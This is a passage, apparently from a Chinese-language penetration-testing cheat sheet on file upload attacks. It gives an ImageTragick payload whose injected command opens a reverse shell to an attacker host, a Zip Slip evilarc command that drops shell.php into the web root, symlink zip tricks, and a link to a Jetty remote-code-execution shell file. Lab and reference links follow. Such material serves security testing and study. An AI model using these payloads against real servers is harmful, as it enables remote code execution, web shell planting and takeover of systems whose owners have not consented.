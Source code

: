 ### CVE - ImageMagick

如果后端使用ImageMagick调整图像大小，可以尝试利用公开的漏洞，如ImageTragik。

* ImageTragik示例代码：将以下代码保存为.png后缀，然后上传(ImageMagick , 7.0.1-1)
  
  ```powershell
  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
  pop graphic-context
  ```

更多的payloads在`Picture ImageMagick`文件夹中

### CVE - FFMpeg

[Fmpeg HLS SSRF](https://cn.bing.com/search?q=+FFmpeg+HLS+vulnerability&form=QBLH&sp=-1&lq=0&pq=+ffmpeg+hls+vulnerability&sc=10-25&qs=n&sk=&cvid=BB93DBF7C9494052BB0F0F71F9261FB7&ghsh=0&ghacc=0&ghpl=)

### ZIP

上传后自动解压缩ZIP文件时

* Zip Slip：遍历目录以在其他位置写入文件
  
  ```python
  python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
  
  ln -s ../../../index.php symindex.txt
  zip --symlinks test.zip symindex.txt
  ```

### Jetty RCE

将以下XML文件上传到`$Jetty_base/webapp/`目录下

* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## 在线实验

* [Portswigger Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)

## 参考

* [Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l)
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [File Upload - Mahmoud M. Awali / @0xAwali](https://docs.google.com/presentation/d/1-YwXl9rhzSvvqVvE_bMZo2ab-0O5wRNTnzoihB9x6jI/edit#slide=id.ga2ef157b83_1_0)
* [IIS - SOAP](https://red.0xbad53c.com/red-team-operations/initial-access/webshells/iis-soap)
* [Arbitrary File Upload Tricks In Java - pyn3rd](https://pyn3rd.github.io/2022/05/07/Arbitrary-File-Upload-Tricks-In-Java/)
* [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [Injection points in popular image formats - Daniel Kalinowski‌‌ - Nov 8, 2019](https://blog.isec.pl/injection-points-in-popular-image-formats/)
